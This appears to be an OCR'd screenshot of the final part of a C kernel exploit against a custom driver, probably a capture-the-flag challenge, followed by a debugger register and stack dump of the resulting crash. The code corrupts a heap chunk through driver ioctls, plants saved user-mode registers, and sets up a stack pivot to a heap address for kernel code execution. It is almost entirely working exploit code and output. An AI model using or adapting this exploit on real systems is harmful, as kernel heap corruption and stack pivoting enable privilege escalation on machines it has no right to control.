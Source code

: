 ```c
    memcpy(updatedkey + 450 + 14 + 48 + 120, &user_rflags, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 128, &user_sp, 8);
    memcpy(updatedkey + 450 + 14 + 48 + 136, &user_ss, 8);
    // shall this enough

    r = ioctl(fd, KKK_IOCTL_UPDATE, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_UPDATE");
        goto leave;
    }

    // we belive the third chunk is corrupted now
    other_arg.id = 2;
    // uses this to pivot gadget to heap
    other_arg.key.size = 0xaaaaaaaa;
    other_arg.key.ptr = 0xbbbbbbbb;
    // this will fill in stack to help with stack pivot
    unsigned long pivotaddr = obj->keypack.ptr;
    memcpy(&other_arg.data.size, &pivotaddr, 8);
    // other_arg.data.size = obj->keypack.ptr;
    other_arg.data.ptr = 0xdddddddd;
    r = ioctl(fd, KKK_IOCTL_LAUNCH, &other_arg);
    if (r < 0)
    {
        perror("KKK_IOCTL_LAUNCH");
        goto leave;
    }

leave:
    close(fd);
    return 0;
}

// OKAY we crash the kernel, the spot is like
// ────────────────────────────────────────────────────────────────────────────────────── registers ────
// $rax   : 0x000000deadbeef  →  0x000000deadbeef
// $rbx   : 0xffff88800530a240  →  0x00000000000001  →  0x00000000000001
// $rcx   : 0x00000000000000  →  0x00000000000000
// $rdx   : 0x00000000000001  →  0x00000000000001
// $rsp   : 0xffffc900002a7e98  →  0xe06d573eab3d7900  →  0xe06d573eab3d7900
// $rbp   : 0x00000000006b6b  →  0x00000000006b6b
// $rsi   : 0x00000000006b6b  →  0x00000000006b6b
// $rdi   : 0xffff888005171400  →  0x00000000000000  →  0x00000000000000
// $rip   : 0xffffffffc00008ae  →  0xe86348c200272de8  →  0xe86348c200272de8
// $r8    : 0x00000000000001  →  0x00000000000001
// $r9    : 0x00000000000000  →  0x00000000000000
// $r10   : 0xffffc900002a7ee0  →  0xffff888005327000  →  0x00000000000000  →  0x00000000000000
// $r11   : 0x00000000000000  →  0x00000000000000
// $r12   : 0x00000000000002  →  0x00000000000002
// $r13   : 0x00000000000002  →  0x00000000000002
// $r14   : 0x00000000000003  →  0x00000000000003
// $r15   : 0x00000000000000  →  0x00000000000000
// $eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
// $cs: 0x10 $ss: 0x18 $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
// ────────────────────────────────────────────────────────────────────────────────────────── stack ────
// 0xffffc900002a7e98│+0x0000: 0xe06d573eab3d7900  →  0xe06d573eab3d7900	 ← $rsp
// 0xffffc900002a7ea0│+0x0008: 0xffffffff829b38e8  →  0x00000000000000  →  0x00000000000000
// 0xffffc900002a7ea8│+0x0010: 0xffffc900002a7ee0  →  0xffff888005327000  →  0x00000000000000  →  0x00000000000000
```